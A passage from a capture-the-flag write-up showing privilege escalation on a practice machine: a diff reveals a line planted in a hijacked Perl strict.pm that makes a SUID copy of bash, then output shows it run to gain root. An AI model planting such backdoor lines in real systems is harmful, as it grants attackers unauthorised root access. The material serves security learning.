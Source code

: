 

The only difference is my additional line:



    jkr@writeup:~$ diff /usr/local/lib/x86_64-linux-gnu/perl/5.24.1/strict.pm /usr/share/perl/5.24/strict.pm
    11d10
    <     system "cp /bin/bash /bin/0xdf; chmod u+s /bin/0xdf";



Now connect over SSH or wait for the minute for someone else to, and the
shell exists:



    jkr@writeup:~$ ls -l /bin/0xdf 
    -rwsr-xr-x 1 root root 1099016 Jun 17 03:39 /bin/0xdf
    jkr@writeup:~$ date
    Mon Jun 17 03:32:45 EDT 2019
    jkr@writeup:~$ date
    Mon Jun 17 03:33:06 EDT 2019
    jkr@writeup:~$ ls -l /bin/0xdf
    -rwsr-xr-x 1 root root 1099016 Jun 17 03:39 /bin/0xdf
    jkr@writeup:~$ /bin/0xdf -p
    0xdf-4.4# id
    uid=1000(jkr) gid=1000(jkr) euid=0(root) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)







